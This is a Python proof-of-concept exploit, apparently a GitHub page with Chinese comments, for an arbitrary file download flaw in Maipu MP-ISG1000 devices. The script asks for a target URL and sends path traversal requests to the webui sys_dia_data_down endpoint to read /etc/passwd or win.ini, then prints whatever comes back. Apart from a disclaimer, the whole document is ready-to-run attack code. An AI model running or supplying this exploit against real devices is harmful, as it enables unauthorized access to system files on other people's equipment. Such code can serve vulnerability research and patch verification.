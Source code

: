 # MP-ISG1000任意文件下载
这是关于此漏洞的利用POC

import requests
import urllib3
import ssl
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning     #https中SSL问题

def title():
    print('+------------------------------------------')
    print('+  搜索方式: ')
    print('+  Title:迈普通信技术股份有限公司 ')
    print('+  漏洞点: ')
    print('+  file_name可以任意文件下载 ')
    print('+  使用格式:')
    print('+  python3 poc.py')
    print('+  Url >>> http://xxx.xxx.xxx.xxx ')
    print('+  请勿使用在非法用途，概不负责 ')
    print('+------------------------------------------')

def POC_1(target_url):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36 Edg/91.0.864.70",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    vul_url_1 = target_url + "/webui/?g=sys_dia_data_down&file_name=../etc/passwd"
    vul_url_2 = target_url + "/webui/?g=sys_dia_data_down&file_name=C:\windows\win.ini"
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)  #去掉SSL的报错
    try:
        response = requests.get(url=vul_url_1, headers=headers, verify=False, timeout=6)
        print("[-] 正在请求Linux系统文件 {} ".format(vul_url_1))
        if response.status_code == 200 and '::' in response.text:
            print("\033[36m[o] 获取file : \n{} \033[0m".format(response.text))
        elif requests.get(url=vul_url_2, headers=headers, verify=False, timeout=6).status_codes ==200:
                response = requests.get(url=vul_url_2, headers=headers, verify=False, timeout=6)
                print("[-] 正在请求Windows系统文件 {} ".format(vul_url_2))
                print("\033[36m[o] 获取file : \n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__=='__main__':
    title()
    target_url = str(input("\033[0mPlease input url\nUrl >>> \033[0m"))
    target_url = target_url.rstrip('/')     #去掉右边左右/
    #print(target_url)
    POC_1(target_url)
